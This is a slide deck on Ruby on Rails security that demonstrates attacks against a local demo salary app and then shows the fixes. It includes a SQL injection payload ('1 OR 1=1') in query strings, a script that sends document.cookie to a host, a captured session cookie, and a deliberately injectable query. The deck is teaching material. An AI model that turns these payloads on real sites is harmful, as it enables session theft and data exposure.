







!SLIDE 
.notes another dark side
#Security in **Ruby on Rails**#

!SLIDE bullets incremental
## Intro ##
* Creators put many *built-in* security features
* In order to build *secure applications* we must *use* the built-in features *correctlty*
* Most problem domains have their *own* set of *security rules* beyond what any framework can provide

!SLIDE bullets incremental
* Many companies *test applications for security* with help of:
 * Special security teams
 * Code reviews

!SLIDE bullets incremental
* But they have ...
* Highly *expensive* projects with *big budgets*
* *Security principles* should be applied with the same *agile principles* that **RoR** is built-on

!SLIDE bullets incremental
## Default rules  ##

!SLIDE bullets incremental
### Defense layers ###
* Multiple *defense layers* deal with different *attack types*

!SLIDE bullets incremental
### Defense layers ###
* *Network*, *Operating system*, *Web server*, *Web application* and *Database*

!SLIDE bullets incremental
### Your system is as **secure** as ... ###
* The *wekest link*

!SLIDE bullets incremental
### You **better** ... ###
* Follow a *Fail close* approach

!SLIDE
##**Discouraged**##
	@@@ ruby
	def show_invoice
	  @invoice = User.invoices.find(params[:id])
	  unless @invoice
	    redirect :action => 'not_authorized'
	  end
	end

!SLIDE
##*Recommended*##
	@@@ ruby
	def show_invoice
	  @invoice = User.invoices.find(params[:id])
	  if @invoice
	    redirect :action => 'authorized'
	  else 
	    redirect :action => 'not_authorized'
	  end
	end

!SLIDE bullets incremental
### Whitelisting ###

!SLIDE
## **Discouraged** ##
	@@@ ruby
	@non_valid_chars = %w{%<>'"/\}

!SLIDE
## **Recommended** ##
	@@@ ruby
	@valid_users = %w{pepe marco raul}

!SLIDE bullets incremental
### Least privilege ###
* A user should be able to do as *little as possible* according domain requirements, **nothing else**

!SLIDE bullets incremental
### DRY ###
* *Do not repeat yourself*
* Focus on not **cutting pasting code**

!SLIDE bullets incremental
### Avoid complexity ###
* *Complexity* is **bad**
* As complexity grows, security risks too

!SLIDE bullets incremental
## Tamper data ##
* Firefox plugin
* [Download](https://addons.mozilla.org/en-US/firefox/addon/966/)

!SLIDE bullets incremental small
## Exploits ##
* > Piece of *software*, a *chunk of data*, or *sequence of commands*
* > that *takes advantage* of a *bug*, *glitch or vulnerability*  
* > in order to *cause* *unintended behavior* to occur on computer software, hardware, or something electronic.

!SLIDE bullets incremental small
## ... ##
* > Includes such things as *gaining control* of a computer system or 
* > allowing *privilege escalation* or a *denial of service attack*.

!SLIDE
### Parameter Manipulation ##
	@@@ html
	<form accept-charset="UTF-8" action="/users" method="post">
	<input id="user_email" name="user[email]" size="30" type="text" value="" />
	<input id="user_password" name="user[password]" size="30" type="password" />
	<input type="submit" value="Create" />
	</form>

!SLIDE
    @@@ html
    <select id="user_role_id" name="user[role_id]">

!SLIDE full-page

!SLIDE full-page

!SLIDE bullets incremental
### Broken Authorization ###
* Use *public* computer, you do not follow *log out* link and close browser. Another person *checks* that computer *browsing history*
* http://localhost:3000/raises/approve/**12**

!SLIDE bullets incremental
### SQL Injection ###
* What *address* is *search* going through ...
* http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=**1000.00**
* *Testing the waters*
* http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=**1'**

!SLIDE full-page

!SLIDE
### Lets scape a query snippet ###
    @@@ javascript
    alert(escape('1 OR 1=1'))

!SLIDE bullets incremental
* http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=**1+OR+1%3D1**
* *Surprise!*

!SLIDE full-page

!SLIDE bullets incremental small
### Cross-Site Scripting ###
* > Type of computer security *vulnerability* typically found in *web* applications 
* > that *enables* malicious attackers to *inject client-side script* into web pages viewed by other users.

!SLIDE bullets incremental
### Harming script ###
* &lt;script&gt;document.write('*&lt;img src="http://localhost:80/*' + **document.cookie** + '"* &gt;*')&lt;/script&gt;

!SLIDE full-page

!SLIDE full-page

!SLIDE full-page

!SLIDE
    @@@ html
    <tr>
      <td><a href="/users/2">poor@test.com</a></td>
      <td></td>
      <td>Employee</td>
      <td>5.0</td>
      <td>
        <a href="/users/2">Show</a>
        |
        <a href="/users/2/edit">Edit</a>
        |
        <a href="/users/2" data-confirm="Are you sure?" data-method="delete" rel="nofollow">Destroy</a>
      </td>
    </tr>

!SLIDE bullets incremental small
### Cross-Site Request Forgery ###
* > Also known as a *one-click attack* or *session riding* and abbreviated as CSRF or XSRF
* > Type of *malicious exploit* of a website whereby *unauthorized commands* are *transmitted from* a user that the *website trusts*.

!SLIDE bullets incremental
### XSS vs CSRF ###
* *XSS* exploits the trust a *client* has *for* a *site*
* *CSRF* exploits the trust a *site* has for a *client*

!SLIDE bullets incremental
## Fixing exploits ##

# Day 1 - Injection #

* Early morning call from your customer.
* Some employees are complainning about others salary, how do they know how much others are gaining?

!SLIDE small incremental bullets
#Did some research#

- You found that that a user used an Injection attack. He modified the query string adding and update statement.
- Query: javascript:alert(escape('1 OR 1=1'))
- http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=12
- http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=1+OR+1%3D1

!SLIDE small incremental bullets
#Two basic errors#

* Wrong session and roles handling
* SQL Injection

!SLIDE bullets incremental small
#The fix#

* Previously had:
 * @raises = Raise.where(["user_id = #{current_user.id} and request_amount = #{params[:search_raise]}"])
* Now he have:
 * @raises = Raise.where(["user_id = ? and request_amount = ?", current_user, params[:search_raise]])
* We could also create a constraint for that route
 * get '/search/:query', :to => 'raises#index', :as => 'search', :constraints => {:options => /\d{5}/}

!SLIDE bullets incremental
#Sanitize input#

* Use whitelist validation, black lists are never complete
* Rails adds XSS protection by default in Rails3
* [SafeBuffers and Rails3.0](http://yehudakatz.com/2010/02/01/safebuffers-and-rails-3-0/)

!SLIDE bullets incremental
#RoR built-in filter for special SQL characters#

* Default scape for ’ , " , NULL character and line breaks
* Using Model.find(id) or Model.find_by_some thing(something)

!SLIDE bullets incremental
#RoR built-in filter...#

* In SQL Fragments, specially in conditions fragments it has to be applied manually
 * (:conditions => "...")
 * connection.execute() 
 * Model.find_by_sql() methods

!SLIDE bullets incremental

* Prefer:
 * Model.find(:first, :conditions => ["login = ? AND password = ?", entered_user_name, entered_password])
 * Model.find(:first, :conditions => {:login => entered_user_name, :password => entered_password})
 * Automatically sanitize tainted variables

!SLIDE bullets incremental
#Day 2 - Cross-Site Scripting(XSS)#

* Early morning call from your customer. Seems like somebody has been using his admin account.
* He lost control of the admin account.

!SLIDE bullets incremental
#server log#

* GET /_salary-manager_session=BAh7CCIQX2NzcmZfdG9rZW4iMWc4RTNDRERCZTVWSGxoV0lEWU5DeU93dEt1UForZjVBcm9wM2p0L3dEczg9Ig9zZXNzaW9uX2lkIiU4ZjRkNmZiMTQ2ZjdmMDA0YzU2NzVjODdlMGNhNDQwYSIZd2FyZGVuLnVzZXIudXNlci5rZXlbByIJVXNlcmkG--1cbc024cd3c3ba75d9df982f4615596dbc2bb2cf;%20a=1

!SLIDE bullets incremental smaller
#Harming script#

* &lt;script&gt;document.write('&lt;img src="http://localhost:80/' + document.cookie + '" &gt;')&lt;/script&gt;

!SLIDE bullets incremental smaller
#HTTPOnly#

* Rails3 enables HttpPOnly on cookies by default
* config/initializers/session_store.rb
* SalaryManager::Application.config.session_store :cookie_store, :key => '_acl_test_session', :httponly => false

!SLIDE bullets incremental smaller
#Sanitize input#

* Use whitelist validation, black lists are never complete
* validates_format_of :site, :with => /(^$)|(^(http|https):\/\/[a-z0-9]+([\-\.]{1}[a-z0-9]+)*\.[a-z]{2,5}(([0-9]{1,5})?\/.*)?$)/ix

!SLIDE bullets incremental
lso known as a one-click attack or session riding and abbreviated as CSRF ("sea-surf"[1]) or XSRF, is a type of malicious exploit of a website whereby unauthorized commands are transmitted from a user that the website trusts.
